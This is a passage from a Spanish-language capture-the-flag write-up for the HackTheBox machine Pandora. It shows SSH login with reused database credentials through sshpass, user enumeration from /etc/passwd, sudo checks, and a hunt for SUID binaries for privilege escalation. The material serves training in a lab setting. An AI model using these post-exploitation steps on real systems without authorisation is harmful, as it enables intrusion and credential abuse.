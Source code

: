 Tenemos las credenciales de la base de datos para el usuario **`daniel`**:**`HotelBabylon23`**. 
Probemos si hay reutilización de contraseñas tratando de conectarnos por SSH.

```console
p3ntest1ng:~$ sshpass -p "HotelBabylon23" ssh daniel@panda.htb
daniel@pandora:~$ id
uid=1001(daniel) gid=1001(daniel) groups=1001(daniel)
```

Vamos a listar todos los usuarios existentes:

```console
daniel@pandora:~$ grep -vE "nologin|false|sync|git" /etc/passwd | tr ":" " " | column -t
root    x  0     0     root          /root       /bin/bash
matt    x  1000  1000  matt          /home/matt  /bin/bash
daniel  x  1001  1001  /home/daniel  /bin/bash
```

Busquemos dónde se encuentra el archivo con la flag de usuario:

```console
daniel@pandora:~$ find / -type f -name user.txt 2>/dev/null
/home/matt/user.txt
daniel@pandora:~$ cat /home/matt/user.txt
cat: /home/matt/user.txt: Permission denied
```

Dado que el archivo está en el directorio de otro usuario, necesitamos encontrar la manera de pivotar hacia el usuario **`matt`**

Podemos comprobar si estamos en algún grupo interesante:

```console
daniel@pandora:~$ groups daniel
daniel : daniel
```

Nada interesante, probemos a listar los permisos a nivel de sudo:

```console
daniel@pandora:~$ sudo -l
[sudo] password for daniel: HotelBabylon23
Sorry, user daniel may not run sudo on pandora.
```

Veamos si existe algún binario con privilegios SUID que nos pueda servir para escalar privilegios más adelante:

```console
daniel@pandora:~$ cd / && find \-perm -4000 2>/dev/null
./usr/bin/sudo
./usr/bin/pkexec
./usr/bin/chfn
./usr/bin/newgrp
./usr/bin/gpasswd
./usr/bin/umount
./usr/bin/pandora_backup
./usr/bin/passwd
./usr/bin/mount
./usr/bin/su
./usr/bin/at
./usr/bin/fusermount
./usr/bin/chsh
./usr/lib/openssh/ssh-keysign
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/eject/dmcrypt-get-device
./usr/lib/policykit-1/polkit-agent-helper-1
```
